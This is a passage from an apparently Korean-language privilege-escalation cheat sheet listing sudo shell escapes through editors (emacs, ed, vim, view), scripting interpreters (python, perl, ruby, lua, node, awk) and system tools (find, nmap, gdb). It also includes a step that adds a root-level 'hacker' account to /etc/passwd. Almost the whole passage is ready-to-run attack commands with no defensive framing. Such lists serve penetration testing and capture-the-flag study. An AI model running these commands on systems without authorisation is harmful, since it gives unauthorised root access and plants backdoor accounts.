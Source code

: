 ```bash
sudo emacs -Q -nw --eval '(term "/bin/sh")'

# ed 에디터
sudo ed
!/bin/sh

# view (vim의 읽기 전용 모드)
sudo view -c ':!/bin/sh'

# 파일 편집을 통한 권한상승 (/etc/passwd 수정)
sudo vim /etc/passwd
# 다음 라인 추가: hacker:$6$salt$hash:0:0:root:/root:/bin/bash
```

### 🐍 스크립팅 언어 악용

```bash
# python으로 쉘 실행
sudo python -c 'import os; os.system("/bin/sh")'
sudo python -c 'import pty; pty.spawn("/bin/sh")'
sudo python -c 'import subprocess; subprocess.call(["/bin/sh"])'

# python3
sudo python3 -c 'import os; os.system("/bin/sh")'
sudo python3 -c 'import pty; pty.spawn("/bin/sh")'

# perl 스크립트
sudo perl -e 'exec "/bin/sh";'
sudo perl -e 'system("/bin/sh");'

# ruby 스크립트
sudo ruby -e 'exec "/bin/sh"'
sudo ruby -e 'system("/bin/sh")'

# lua 스크립트
sudo lua -e 'os.execute("/bin/sh")'

# node.js
sudo node -e 'require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]})'
sudo node -e 'process.setuid(0); require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]})'

# awk 스크립트
sudo awk 'BEGIN {system("/bin/sh")}'
```

### 🔍 시스템 도구 악용

```bash
# find로 명령 실행
sudo find . -exec /bin/sh \; -quit
sudo find /home -type f -exec /bin/sh \; -quit
sudo find . -name "*.txt" -exec /bin/sh \; -quit

# nmap 인터랙티브 모드 (구버전)
sudo nmap --interactive
nmap> !sh

# nmap NSE 스크립트
echo "os.execute('/bin/sh')" > /tmp/shell.nse
sudo nmap --script=/tmp/shell.nse

# gdb 디버거
sudo gdb -nx -ex '!sh' -ex quit
sudo gdb -nx -ex 'python import os; os.system("/bin/sh")' -ex quit
```